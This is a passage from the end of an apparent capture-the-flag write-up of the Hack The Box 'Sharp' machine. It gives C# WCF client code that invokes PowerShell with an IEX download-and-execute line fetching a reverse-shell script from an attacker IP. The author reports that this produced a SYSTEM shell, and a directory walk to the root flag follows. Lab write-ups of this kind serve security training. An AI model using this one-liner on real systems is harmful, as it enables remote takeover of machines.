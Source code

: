 `Client.cs` is to be changed as below:

```c#
namespace Client {    public class Client    {        public static void Main() {            ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(                new NetTcpBinding(SecurityMode.Transport),"net.tcp://10.10.10.219:8889/wcf/NewSecretWcfEndpoint"            );            IWcfService client = channelFactory.CreateChannel();            Console.WriteLine(client.InvokePowerShell("IEX(New-Object Net.WebClient).downloadString('10.10.16.3/reverse.ps1')"));        }    }
```

Re-build the project then execute `Client.exe` as `lars` gives us our reverse shell as `nt-authority system` 

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_14-46.png)

And the flag is located in `C:\Users\Administrator\Desktop\root.txt`

```powershell
cd C:\Users\Administratordir    Directory: C:\Users\AdministratorMode                LastWriteTime         Length Name                                                                   ----                -------------         ------ ----                                                                   d-r---       11/12/2020   5:15 PM                3D Objects                                                             d-r---       11/12/2020   5:15 PM                Contacts                                                               d-r---       11/15/2020   1:42 PM                Desktop                                                                d-r---       11/15/2020   1:46 PM                Documents                                                              d-r---       11/12/2020   5:15 PM                Downloads                                                              d-r---       11/12/2020   5:15 PM                Favorites                                                              d-r---       11/12/2020   5:15 PM                Links                                                                  d-r---       11/12/2020   5:15 PM                Music                                                                  d-r---       11/12/2020   5:15 PM                Pictures                                                               d-r---       11/12/2020   5:15 PM                Saved Games                                                            d-r---       11/12/2020   5:15 PM                Searches                                                               d-r---       11/12/2020   5:15 PM                Videos                                                                 cd Desktopdir    Directory: C:\Users\Administrator\DesktopMode                LastWriteTime         Length Name                                                                   ----                -------------         ------ ----                                                                   -ar---        5/14/2021   6:02 AM             34 root.txt                                                               cat root.txt[REDACTED]PS C:\Users\Administrator\Desktop> 
```



## Footnotes

[^1]: See more about PowerShell one-liner: https://gist.github.com/m8r0wn/b6654989035af20a1cb777b61fbc29bf
[^2]: Proof of Concept
[^3]: Virtual Machine
